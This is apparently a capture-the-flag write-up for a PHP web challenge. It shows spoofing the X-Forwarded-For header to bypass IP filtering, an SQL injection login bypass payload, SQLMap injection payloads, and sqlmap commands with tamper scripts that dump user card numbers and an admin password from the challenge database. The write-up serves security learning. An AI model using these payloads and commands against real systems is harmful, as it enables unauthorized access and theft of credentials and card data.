 # Clubmouse

We are presented with a PHP webpage. There is a `login.php`, but it gives us a 403 Forbidden error. Looking a little deeper into `gallery.php` shows us that some of the pictures of the devices include internal subnet addresses.

![](<../../.gitbook/assets/image (14).png>)

![](<../../.gitbook/assets/image (15).png>)

One way that the login page might be filtering requests is by the user's IP address. The `X-Forwarded-For` header is used for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or a load balancer. 

However, it can also be easily changed by the client. By running a Burp Suite Intruder scan for the request header`X-Forwarded-For: 192.168.3.x`, where `x` is the payload, we see that by setting the `X-Forwarded-For` header to `192.168.3.16`, we gain access to the login page.

![](<../../.gitbook/assets/image (16).png>)

We see a form with `username` and `password` fields. Using `'` in username parameter leads to the following output:

```markup
<h4 style='color: red;' class='text-center'>There is a sql error, Call the administrator!</h4>
```

We have identified an SQL injection vulnerability. By using the following payload, we can bypass the authentication.

```
username=test&password=test' or 1=1 LIMIT 1;#
```

Once logged in as the admin, we have access to a `users.php` page. This page contains usernames and card numbers.

```markup
<tbody>
   <tr>
      <th scope="row">1</th>
      <td>melo</td>
      <td>1457888555215515</td>
   </tr>
   <tr>
      <th scope="row">2</th>
      <td>john</td>
      <td>99888515654864655</td>
   </tr>
   <tr>
      <th scope="row">3</th>
      <td>admin</td>
      <td>85551496165161665</td>
   </tr>
</tbody>
```

This page must also be fetching the user information through the database, so we tested for additional SQL injection endpoints. 

We found that `/users.php?id=1` returns only the data for user ID 1. Fuzzing the input leads us to discover that this is a second SQL injection endpoint. This time, there is a blacklist filter:

```markup
<script>alert('Bad character/word ditected!');</script>
```

Using SQLMap, we get the following injection vectors:

```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1') AND 5928=5928 AND ('bLIm'='bLIm

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1') AND (SELECT 2847 FROM (SELECT(SLEEP(5)))MMVq) AND ('pklt'='pklt

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=1') UNION ALL SELECT NULL,CONCAT(0x7170786a71,0x4a6d4669536b6565767a724d666e776b46517a7853774374787154644d49664b664b565242485172,0x7171787171),NULL,NULL-- -
---
```

`sqlmap -r get.req --threads 10 --dbms mysql --dump --no-escape --tamper=between` dumps the database.

```
Database: users_data
Table: data
[3 entries]
+----+-------+-------------------+-----------+
| id | user  | card_num          | R34L_F14G |
+----+-------+-------------------+-----------+
| 1  | melo  | 1457888555215515  | <blank>   |
| 2  | john  | 99888515654864655 | <blank>   |
| 3  | admin | 85551496165161665 | <blank>   |
+----+-------+-------------------+-----------+
```

```
Database: login_users
Table: users
[1 entry]
+----+-----------------------------+----------+---------------------+
| id | password                    | username | created_at          |
+----+-----------------------------+----------+---------------------+
| 1  | R34ly_h4rd_p@ssw0rd_t0_f1nd | admin    | 2021-07-13 03:15:21 |
+----+-----------------------------+----------+---------------------+
```

We see that there is a `R34L_F14G` column, but it is returning us `<blank>` results. I looked deeper into the SQLMap queries, and found that the following query is used to retrieve the column values.

`GET /users.php?id=1%27)%20UNION%20ALL%20SELECT%20NULL,CONCAT(%27qzppq%27,JSON_ARRAYAGG(CONCAT_WS(%27kbxmel%27,card_num)),%27qpbzq%27),NULL,NULL%20FROM%20users_data.data%20ORDER%20BY%20card_num--%20-`

Replacing `card_num` with `R34L_F14G` fails the blacklist filter, so SQLMap was unable to retrieve any results.

Remember `login.php` from earlier? It did not filter `R34L_F14G`, but it does have an SQL injection vector too. It was a blind SQL injection, so retrieving information from the database would be time-based and it would have been too slow to dump the entire database. 

However, by specifying the specific table and column to dump, we got our results much faster.

`sqlmap -u http://challenges.ctfd.io:30232/login.php --headers=“X-Forwarded-For: 192.168.3.16” --data “password=1&username=test” --dbms=mysql --tamper=between -D users_data -T data -C R34L_F14G --dump --where “id=3”`

This gave us the flag, `S3D{G0_De3Per_L1k3_a_pr0_r3d_T3aMEr}`.
